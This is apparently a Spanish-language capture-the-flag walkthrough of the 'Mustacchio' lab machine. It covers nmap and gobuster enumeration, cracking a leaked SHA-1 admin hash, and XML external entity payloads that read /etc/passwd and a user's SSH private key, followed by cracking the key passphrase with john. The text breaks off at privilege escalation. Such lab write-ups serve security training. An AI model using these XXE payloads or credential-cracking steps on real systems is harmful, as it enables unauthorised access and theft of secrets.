 ### nmap 
```python
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-11 20:34 EST
Nmap scan report for 10.10.163.196
Host is up (0.23s latency).
Not shown: 65532 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 58:1b:0c:0f:fa:cf:05:be:4c:c0:7a:f1:f1:88:61:1c (RSA)
|   256 3c:fc:e8:a3:7e:03:9a:30:2c:77:e0:0a:1c:e4:52:e6 (ECDSA)
|_  256 9d:59:c6:c7:79:c5:54:c4:1d:aa:e4:d1:84:71:01:92 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Mustacchio | Home
8765/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-title: Mustacchio | Login
|_http-server-header: nginx/1.10.3 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 152.04 seconds
```
tenemos un archivo robots.txt
### Ports: 22/ssh - 80/http - 8765/http 

### Enumeracion del puerto 80
![[Pasted image 20231211214708.png]]
### parece que no hay mucha cosa interesante veamos el archivo robots.txt
![[Pasted image 20231211215451.png]]
parece que el archivo esta vacio
###  gobuster
![[Pasted image 20231211215631.png]]
gobuster nos certifica que existe el archivo robots.txt aparte de esto de todos los subdirectorios el mas llamativo es custom
### subdirectorio custom/js
![[Pasted image 20231211215353.png]]
### el archivo users.bak lo podemos descargar 
![[Pasted image 20231211220112.png]]
parece que tenemos un usuario admin con un hash asi que vamos a decodearlo

### usamos hashid para identificar el hash
![[Pasted image 20231211220355.png]]
buscamos un decoder de hash SHA-1
### tenemos un usuario y ahora una pass
![[Pasted image 20231211220902.png]]
### iniciamos session cn el panel de login
![[Pasted image 20231211222507.png]]
### parece que el panel de comandos no es vulnerable a reverse shell ni inyeccion sql
### miramos el codigo fuente
![[Pasted image 20231211222616.png]]
### parece que aqui nos dejan una pista asi que vamos a mirar este subdirectorio
### se nos descarga un archivo automaticamente y lo abrimos con strings 
parece que tenemos un archivo xml
![[Pasted image 20231211222919.png]]
### xml inyection 
usaremos esta xml inyeccion para intentar mirar el etc/passwd

```python
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]> 
<comment> 
<name>Joe Hamd</name> 
<author>Barry Clad</author> 
<com>&test; </com> 
</comment>
```

![[Pasted image 20231212001031.png]]
### perfecto tenemos respuesta. vemos que existe un usuario llamado barry. vamos a intentar consegui su id_rsa modificando la ruta en el xml

```python
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///home/barry/.ssh/id_rsa'>]> 
<comment> 
<name>Joe Hamd</name> 
<author>Barry Clad</author> 
<com>&test; </com> 
</comment>
```
### tenemos la id_rsa de barry
![[Pasted image 20231212001934.png]]
para poder copiar la id_rsa de una mejor podemos hacer Ctrl + u para ver el codigo fuente
![[Pasted image 20231212002209.png]]
### puerto 22/ssh
![[Pasted image 20231212002530.png]]
### intentamos conectarnos por ssh pero necesitamos otorgar permisos de lectura. esto lo hacemos con el comando chmod luego intentamos ingresar pero al parecer la id_rsa necesita una clave asi que vamos a conseguirla
![[Pasted image 20231212002803.png]]
### con estos pasos podemos conseguir el hash de la id_rsa y lo enviamos a un archivo llamado id_hash como se ve en la imagen, hacemos un cat para asegurarnos que el archivo id_hash contenga el hash
### usaremos la herramienta john para decodear el hash
![[Pasted image 20231212003052.png]]
### ahora tenemos la palabra clave que necesita la id_rsa asi que intentemos entrar por ssh de nuevo
### Port 22/ssh
![[Pasted image 20231212003433.png]]
perfecto estamos dentro y somos el usuario barry
### Escalada de privilegios
navegando por la maquina nos hemos encontrado otro usuario el cual tiene un archivo muy interesante, si hacemos cat no podemos ver nada p